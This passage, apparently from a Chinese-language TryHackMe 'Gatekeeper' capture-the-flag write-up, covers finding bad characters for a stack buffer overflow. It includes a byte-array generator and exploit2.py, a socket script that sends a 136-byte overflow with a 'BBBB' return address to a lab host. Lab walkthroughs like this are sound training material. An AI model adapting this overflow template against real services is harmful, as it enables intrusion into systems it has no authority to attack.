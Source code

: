 0x00在C/C++语言中表示终止，所以是一个很普遍的坏字节，在上面我们首先把它排除掉。
我们用下面的bytearray.py脚本生成所有字节码：

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

执行：
```
┌──(root💀kali)-[~/tryhackme/Gatekeeper/bof]
└─# python3 bytearray.py 
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff

```


此时我们准备第二个攻击脚本exploit2.py，把上面生成的字节码粘贴到payload变量

同时，我们把偏移量136赋值到offset变量，把"BBBB"赋值到retn变量，重启程序，执行下面的脚本

```
import socket

ip = "192.168.3.49"
port = 31337

prefix = "OVERFLOW1 "
offset = 136
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = "\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```